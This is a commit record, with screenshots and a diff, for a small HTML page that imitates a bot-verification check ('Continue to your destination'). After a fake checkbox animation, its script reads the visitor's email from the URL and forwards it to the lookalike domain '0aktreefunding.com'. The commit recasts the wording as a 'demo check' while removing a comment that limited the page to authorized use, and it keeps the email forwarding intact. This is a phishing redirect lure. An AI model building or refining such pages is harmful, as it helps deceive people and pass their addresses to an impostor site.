

Before and after one commit to timnawcomb07/biglobe, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Complete demo check". Shown: the part 254-466 px from the top of the page, 319-959 px from the left. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor verification UI and script logic
Updated the checkbox size, modified text for clarity, and improved email handling in the script.

```diff
--- a/index.html
+++ b/index.html
@@ -59,8 +59,8 @@
         }
 
         .custom-checkbox {
-            width: 22px;
-            height: 22px;
+            width: 26px;
+            height: 26px;
             border: 2px solid #333;
             border-radius: 4px;
             background: #fff;
@@ -99,7 +99,6 @@
         .widget-label {
             font-size: 14px;
             color: #333;
-            cursor: pointer;
             text-align: left;
         }
 
@@ -174,10 +173,10 @@
     <main class="container">
         <header class="header">
             <h1>Continue to your destination</h1>
-            <p>Complete the check below to continue.</p>
+            <p>Complete the demo check to continue.</p>
         </header>
 
-        <section class="verification-box" aria-label="Verification demo">
+        <section class="verification-box" aria-label="Demo check">
             <div class="widget-left">
                 <button
                     type="button"
@@ -235,48 +234,75 @@
             </div>
         </section>
 
-        <p class="status" id="status" role="status" aria-live="polite"></p>
+        <p class="status" id="status" role="status"
+           aria-live="polite"></p>
 
-        <button type="button" class="continue-button" id="continue-button">
+        <button
+            type="button"
+            class="continue-button"
+            id="continue-button"
+        >
             Continue
         </button>
     </main>
 
     <script>
         // Read the email query parameter from the current URL.
-        const params = new URLSearchParams(window.location.search);
-        const email = params.get("email") || "";
+        const currentParams = new URLSearchParams(
+            window.location.search
+        );
 
-        // Set your intended destination here.
-        const destination = new URL("https://0aktreefunding.com/?email=");
+        const email = currentParams.get("email");
 
-        // Preserve the email parameter when redirecting.
-        // Only use this for an authorized, transparent workflow.
-        if (email) {
+        // Destination website.
+        const destination = new URL(
+            "https://0aktreefunding.com/"
+        );
+
+        // Forward the supplied email parameter.
+        if (email !== null && email.trim() !== "") {
             destination.searchParams.set("email", email);
         }
 
-        const verifyButton = document.getElementById("verify-button");
-        const checkmark = document.getElementById("checkmark");
-        const spinner = document.getElementById("spinner");
-        const status = document.getElementById("status");
-        const continueButton = document.getElementById("continue-button");
+        const verifyButton =
+            document.getElementById("verify-button");
+
+        const checkmark =
+            document.getElementById("checkmark");
+
+        const spinner =
+            document.getElementById("spinner");
+
+        const status =
+            document.getElementById("status");
+
+        const continueButton =
+            document.getElementById("continue-button");
 
         verifyButton.addEventListener("click", function () {
             verifyButton.disabled = true;
-            verifyButton.setAttribute("aria-pressed", "true");
+
+            verifyButton.setAttribute(
+                "aria-pressed",
+                "true"
+            );
+
             spinner.style.display = "block";
             checkmark.style.display = "none";
-            status.textContent = "Demo check completed.";
 
-            // This is a UI demonstration, not actual bot verification.
+            status.textContent = "Please wait...";
+
+            // Demo animation only; this is not real CAPTCHA verification.
             window.setTimeout(function () {
                 spinner.style.display = "none";
                 checkmark.style.display = "block";
+
                 verifyButton.style.borderColor = "#f38020";
                 verifyButton.style.backgroundColor = "#fff7ed";
+
                 status.textContent =
-                    "Demo complete. Select Continue to proceed.";
+                    "Demo check complete. Select Continue.";
+
                 continueButton.style.display = "block";
             }, 800);
         });
```
